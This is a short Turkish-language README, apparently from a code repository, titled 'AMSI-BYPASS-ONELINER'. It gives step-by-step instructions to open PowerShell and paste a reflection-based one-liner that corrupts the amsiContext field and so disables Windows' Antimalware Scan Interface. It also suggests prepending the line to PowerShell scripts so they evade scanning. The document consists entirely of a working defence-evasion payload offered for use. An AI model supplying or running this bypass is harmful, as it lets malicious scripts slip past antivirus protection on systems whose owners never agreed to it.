 # AMSI-BYPASS-ONELINER

Adım 1

Powershell i aç

Adım 2 

Konsola Aşağıdaki kodu yapıştır.
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

Ve artık bypass ettin. Powershell scriptlerinde bypass etmek için scriptin başına'da eklenebilir.
